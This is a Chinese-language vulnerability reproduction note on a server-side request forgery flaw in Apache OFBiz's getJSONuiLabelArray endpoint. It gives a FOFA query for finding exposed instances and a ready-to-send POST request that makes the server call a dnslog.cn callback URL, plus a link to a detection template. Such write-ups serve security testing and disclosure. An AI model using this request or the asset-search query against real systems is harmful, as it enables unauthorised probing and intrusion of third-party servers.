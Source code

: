 # Apace OFBiz getJSONuiLabelArray存在服务端请求伪造ssrf漏洞

# 一、漏洞简介
<font style="color:rgb(36, 41, 46);">Apache OFBiz是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新J2EE/XML规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类WEB应用系统的框架。OFBiz最主要的特点是OFBiz提供了一整套的开发基于Java的web应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。Apace OFBiz getJSONuiLabelArray存在服务端请求伪造ssrf漏洞。</font>

# <font style="color:rgb(36, 41, 46);">二、影响版本</font>
+ Apace OFBiz

# 三、资产测绘
+ fofa`app="Apache_OFBiz"`
+ 特征

![1704514365135-311b494b-09b2-413f-a8ec-93f13c5b2b53.png](./img/4TixQa4ZMwFFg4Du/1704514365135-311b494b-09b2-413f-a8ec-93f13c5b2b53-414907.png)

# 四、漏洞复现
1. 获取dnslog地址

```plain
v3f9em.dnslog.cn
```

![1704514419059-66d8b314-0740-451a-b678-7e22e50ebc03.png](./img/4TixQa4ZMwFFg4Du/1704514419059-66d8b314-0740-451a-b678-7e22e50ebc03-246109.png)

2. 测试是否存在漏洞

```plain
POST /partymgr/control/getJSONuiLabelArray HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 79
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

requiredLabels={"https://v3f9em.dnslog.cn/api":["2aZ6okJyCI0H8XLAUeiv9Yu3wOK"]}
```

![1704514461121-2657a5fc-cf77-4b35-8857-1069d87ccd00.png](./img/4TixQa4ZMwFFg4Du/1704514461121-2657a5fc-cf77-4b35-8857-1069d87ccd00-991338.png)

![1704514477535-9277697c-782c-4d32-b5d3-c94147c4b724.png](./img/4TixQa4ZMwFFg4Du/1704514477535-9277697c-782c-4d32-b5d3-c94147c4b724-582845.png)

[apache-OFBiz-getjsonuilabelarray-服务端请求伪造.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222253157-27d1351f-0247-4560-b9a5-3c8db0b44532.yaml)



> 更新: 2024-02-29 23:57:33  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ciyvexuvwfhmzuq5>